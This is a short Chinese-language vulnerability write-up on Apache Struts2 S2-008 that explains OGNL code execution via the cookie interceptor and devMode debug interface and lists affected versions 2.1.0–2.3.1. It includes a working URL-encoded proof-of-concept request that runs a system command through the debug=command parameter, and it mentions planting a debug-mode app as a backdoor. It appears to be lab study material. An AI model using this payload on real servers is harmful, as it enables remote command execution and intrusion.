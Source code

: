 ## 漏洞描述
`S2-008`涉及多个漏洞，`Cookie`拦截器错误配置可造成`OGNL`表达式执行，但是由于大多Web容器(如Tomcat)对`Cookie`名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在`struts2`应用开启`devMode`模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如kxlzx所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了`debug`模式的应用到服务器上作为后门也是有可能的
## 漏洞原理
利用对传入参数没有严格限制，导致多个地方可以执行任意代码。
第一种情况其实就是`S2-007`，在异常处理时的`OGNL`执行第二种的 `cookie`的方式，虽然在`struts2`没有对恶意代码进行限制，但是`java`的`webserver（Tomcat）`，对`cookie`的名称有较多限制，在传入`struts2`之前就被处理，从而较为鸡肋第三种需要开启`devModedebug`模式，例如在`devMode`模式下直接添加参数
`?debug=command&expression=`会直接执行后面的`OGNL`表达式.

## 影响版本
Struts 2.1.0 - Struts 2.3.1
## 漏洞利用
启动靶场
![](i/1.png)
POC
```
/devmode.action?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%29
```
![](i/2.png)